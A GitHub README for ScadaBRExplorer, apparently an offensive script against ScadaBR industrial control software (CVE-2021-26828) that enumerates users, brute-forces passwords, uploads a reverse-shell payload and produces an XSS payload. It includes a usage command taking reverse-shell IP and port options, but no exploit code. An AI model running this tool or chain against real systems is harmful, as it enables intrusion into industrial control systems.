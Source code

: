 # ScadaBRExplorer
This repository will be used for uploading multiple scripts!
<h1>Please use responsibly, only for educational purposes</h1>
<h3>Not responsible if you use this irresponsibly</h3>

<p>Credit: <br>
Exploit Author: Fellipe Oliveira CVE-2021-26828 (Kudos to Fellipe!)<br>
ScadaBR: https://www.scadabr.com.br/ <br>
Tested versions and OS: ScadaBR 1.0, ScadaBR 1.1CE on Linux, Windows 10 <br>
</p>

<h2>About the software</h2>
<p>
This software, enumerates users for ScadaBR, and tries to brute force the password.<br>
If the user gets a valid login, then asks if you want to upload the "payload" for Windows or Linux <br>
Last option you can get an XSS payload to test the XSS vulnerability <br>
</p>

<h2>Usage</h2>
<p>
python3 scadabrute.py --ip ip --port port --revip (reverse_shell ip) --revport (reverse_shell port) <br>
Last two are optional, in case you don't care about it! <br>
Please create a usernames.txt file and passwords.txt file in order to use the user enumeration and password guessing functions! <br>
</p>
